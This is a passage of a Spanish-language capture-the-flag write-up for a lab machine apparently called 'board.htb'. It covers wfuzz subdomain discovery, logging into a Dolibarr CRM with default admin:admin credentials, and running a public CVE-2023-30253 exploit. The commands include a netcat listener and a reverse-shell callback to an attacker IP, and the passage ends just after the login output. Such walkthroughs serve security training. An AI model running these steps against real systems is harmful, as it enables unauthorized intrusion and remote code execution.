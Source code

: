 ~~~bash
wfuzz -u http://10.10.11.11 -H "Host:FUZZ.board.htb " -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 517
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.11/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                    
=====================================================================

000000107:   200        149 L    504 W      6360 Ch     "crm"
~~~
Despues de esperar un tiempo, se pudo encontrar un subodminio, al agregarlo al /etc/hosts.
~~~
cat /etc/hosts
127.0.0.1 localhost
<SNIP>
10.10.11.11 board.htb crm.board.htb
~~~
Al inspeccionar el contenido del subdominio, se pudo encontrar que esta en una aplicación web predefinida, con un inicio de sesion.
Como punto principal siempre se prueban las credenciales basicas encontrando la correcta con (admin:admin)

![](board2.jpg)

Con ello se pudo acceder a un dashboard interactivo, donde al parecer se puede crear diferentes páginas y demas, como se tiene la versión, se procede a buscar alguna vulnerabilidad.
### CVE-2023-30253
Se encontró una vulnerabilidad asociado a un CVE-2023-30253, esta es valida para la versión dolibarr 17.0.0 que poseemos.
Encontrando un exploit en github (https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) se procede a replicar el mismo que lanza una reverse shell para obtener acceso a un usuario dentro del servidor.
Primero manteniendo en escucha un puerto.
~~~bash
sudo nc -nlvp 4433
~~~
Al correr el script debearia realizar la conexion con la reverse shell.
~~~bash
python3 exploit.py http://crm.board.htb admin admin 10.10.14.17 4433
[*] Trying authentication...
[**] Login: admin
~~~